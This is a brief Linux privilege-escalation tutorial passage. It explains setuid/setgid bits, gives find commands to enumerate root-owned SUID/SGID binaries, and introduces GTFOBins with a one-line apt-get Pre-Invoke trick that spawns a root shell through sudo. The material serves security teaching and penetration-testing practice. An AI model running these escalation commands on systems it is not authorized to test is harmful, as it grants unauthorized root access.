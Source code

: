 The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`.

```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them.

```shell
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

This [resource](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits) has more information about the `setuid` and `setgid` bits, including how to set the bits.

## GTFOBins

The [GTFOBins](https://gtfobins.github.io/) project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions. Each page details the program's features that can be used to break out of restricted shells, escalate privileges, spawn reverse shell connections, and transfer files

```shell
 sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

